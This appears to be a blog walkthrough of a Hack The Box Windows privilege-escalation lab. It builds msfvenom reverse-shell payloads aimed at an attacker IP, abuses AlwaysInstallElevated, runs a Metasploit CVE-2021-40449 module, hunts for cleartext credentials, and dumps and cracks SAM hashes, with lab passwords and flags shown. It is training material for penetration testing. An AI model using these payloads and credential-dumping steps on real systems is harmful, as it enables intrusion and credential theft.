









After linux privilege escalation, it would be windows right? 😀. And in this skills assessment i will use multiple tools to help me perform information gathering in the target host alright.. dont yapping anymore! Lets `Pwn`  this !

# Part 1 :

Target : 10.129.225.46

## Recon

On the target, i perform nmap scan and found RDP and port 80(webserver)

```powershell
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -n -T5 10.129.225.46 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 02:54 -0400
Nmap scan report for 10.129.225.46
Host is up (0.39s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

Access the website and i can see that it perform ping on ip address !

I found that the website vuln to command injection



## Initial access

Now i create payload on `cobalt strike` and got revshell. It is similar to metasploit but it is famous for perform pentesting with windows machine! 



I wont share much about how to setup the payload with cobalt strike in this blog and i know you know how to get revshell right? just netcat or whatever



## Gathering Information on system

With the first question i enter command to ask for `systeminfo` to look for patch hotfix on system

```powershell

[08/16 03:21:53] beacon> shell systeminfo
[08/16 03:21:53] [*] Tasked beacon to run: systeminfo
[08/16 03:21:54] [+] host called home, sent: 41 bytes
[08/16 03:21:57] [+] received output:

Host Name:                 WINLPE-SKILLS1-
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30821-30176-AA757
Original Install Date:     5/25/2021, 8:57:43 PM
System Boot Time:          8/15/2026, 11:41:54 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24504846.B64.2501180334, 1/18/2025
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,375 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,101 MB
Virtual Memory: In Use:    698 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB3200970
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.10.2
                                 IP address(es)
                                 [01]: 10.129.225.46
                                 [02]: fe80::419d:59fa:e317:98a5
                                 [03]: dead:beef::419d:59fa:e317:98a5
                                 [04]: dead:beef::141
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

**`Which two KBs are installed on the target system? (Answer format: 3210000&3210060)`**

> 3199986&3200970
> 

**`Find the password for the ldapadmin account somewhere on the system.`**

With this question, just simply looking for the file contain ldapadmin user 

```powershell
findstr /s /i /p /c:"ldapadmin" C:\*.txt C:\*.xml C:\*.conf C:\*.ini C:\*.json C:\*.cfg
```

And we found the config file that have creadential for ldapadmin

```powershell
C:\Users\Administrator\Desktop>findstr /s /i /p /c:"ldapadmin" C:\*.txt C:\*.xml C:\*.conf C:\*.ini C:\*.json C:\*.cfg

findstr /s /i /p /c:"ldapadmin" C:\*.txt C:\*.xml C:\*.conf C:\*.ini C:\*.json C:\*.cfg
C:\Users\Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml:  <connection id="21f81b55-9e67-4f2a-b9e7-1939d662f017" name="LDAP.inlanefreight.local" host="dc01.inlanefreight.local" port="389" encryptionMethod="NONE" authMethod="SIMPLE" bindPrincipal="ldapadmin" bindPassword="car3ful_st0rinG_cr3d$" saslRealm="" saslQop="AUTH" saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" krb5KdcPort="88" readOnly="false" timeout="30000">
C:\Users\Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.ui\dialog_settings.xml:       <item value="ldapadmin"/>
C:\Users\htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml:  <connection id="1d3babd3-f478-4dc3-b84a-a3efb7f73de7" name="ILFREIGHT_LDAP" host="DC01.INLANEFREIGHT.LOCAL" port="389" encryptionMethod="NONE" authMethod="SIMPLE" bindPrincipal="ldapadmin" bindPassword="car3ful_st0rinG_cr3d$" saslRealm="" saslQop="AUTH" saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" krb5KdcPort="88" readOnly="false" timeout="30000">
C:\Users\htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.core\connections.xml-temp:  <connection id="1d3babd3-f478-4dc3-b84a-a3efb7f73de7" name="ILFREIGHT_LDAP" host="DC01.INLANEFREIGHT.LOCAL" port="389" encryptionMethod="NONE" authMethod="SIMPLE" bindPrincipal="ldapadmin" bindPassword="car3ful_st0rinG_cr3d$" saslRealm="" saslQop="AUTH" saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" krb5KdcPort="88" readOnly="false" timeout="30000">
C:\Users\htb-student\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.directory.studio.connection.ui\dialog_settings.xml:         <item value="ldapadmin"/>

C:\Users\Administrator\Desktop>

```

> car3ful_st0rinG_cr3d$
> 

## Privilege Escalation

Right now i switch to `metasploit`, which i have familiar more than cobalt strike and i want to use its local exploit suggester module. So th0e system escalation will be much easier !

Setup listener

```powershell
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST tun0
set LPORT 4444
run
```

use module localexploit suggest 

```powershell
use local exploit suggest
set session 1
```

And this cve202140449

```powershell
use windows/local/cve_2021_40449
set lport 6666
set LHOST tun0
set session 7
run
```

Now i success get revshell with system privilege



```powershell
C:\Windows\system32>cd /users/Administrator/desktop 
cd /users/Administrator/desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
Ev3ry_sysadm1ns_n1ghtMare!

```

> Ev3ry_sysadm1ns_n1ghtMare!
> 

**`After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.`**

```powershell
where /r C:\ "confidential.txt"
```

```powershell
C:\Users\Administrator\Desktop>type C:\Users\Administrator\Music\confidential.txt

type C:\Users\Administrator\Music\confidential.txt
5e5a7dafa79d923de3340e146318c31a
```

> 5e5a7dafa79d923de3340e146318c31a
> 

Alright so that is the end of this Part one.


# Part 2:

Now Let move to part II

Target : 10.129.43.33

We have RDP to this machine so already initial access !

## Gathering information on system

**`Find left behind cleartext credentials for the iamtheadministrator domain admin account.`** 

```powershell
findstr /s /i /p /c:"iamtheadministrator" C:\*.*

```



```powershell
type C:\Windows\Panther\unattend.xml
```



> Inl@n3fr3ight_sup3rAdm1n!
> 

## Revshell

```powershell
 msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.10.16.163  -f exe -o hehe.exe  LPORT=4444  
```

```powershell
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST tun0
set LPORT 4444
run
```

## Privilege Escalation with **Always Install Elevated**

**`Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop`**



With this value is 0x1 we can run any .msi file on target with system role. From that i upload revshell with .msi extension  so i can have system role when run l it.

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.10.16.163  -f msi -o backup.msi  LPORT=5555

```

runing msiexec to execute .msi file

```powershell
msiexec /i c:\users\htb-student\desktop\backup.msi /quiet /qn /norestart
```

Setup Handler 

```powershell
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST tun0
set LPORT 5555
run
```



```powershell
C:\Windows\system32>type C:\Users\administrator\desktop\flag.txt
type C:\Users\administrator\desktop\flag.txt
el3vatEd_1nstall$_v3ry_r1sky
C:\Windows\system32>

```

> el3vatEd_1nstall$_v3ry_r1sky
> 

Also there is another requirement so here is how i solved it

**`There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.`**

Dump password from sam and system on HKLM

```powershell
reg save HKLM\SAM C:\Users\htb-student\Downloads\sam_local.hiv
reg save HKLM\SYSTEM C:\Users\htb-student\Downloads\system_local.hiv
```



Then download these 2 file to our local kali machine and crack it 

```powershell
impacket-secretsdump -sam sam_local.hiv -system system_local.hiv local
```

Using this tool for extract ntlm hash

```powershell
┌──(kali㉿kali)-[~/Downloads/tool]
└─$ impacket-secretsdump -sam sam_local.hiv -system system_local.hiv local                               
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfab4b2e32a415ea36f846b9408aa69af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Cleaning up... 

```

And copy to hash.txt and crack with hashcat at code 1000(NTLM)

```powershell

┌──(kali㉿kali)-[~/Downloads/tool]
└─$  hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i7-12700H, 8807/17615 MB (4096 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 516 MB (16097 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5835048ce94ad0564e29a924a03510ef:password1                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 5835048ce94ad0564e29a924a03510ef
Time.Started.....: Sun Aug 16 08:03:18 2026 (0 secs)
Time.Estimated...: Sun Aug 16 08:03:18 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2540.8 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 16384/14344385 (0.11%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> cocoliso
Hardware.Mon.#01.: Util:  6%

Started: Sun Aug 16 08:03:05 2026
Stopped: Sun Aug 16 08:03:19 2026

```

> password1
>

That is the end of skill assessments thank you for reading !!! 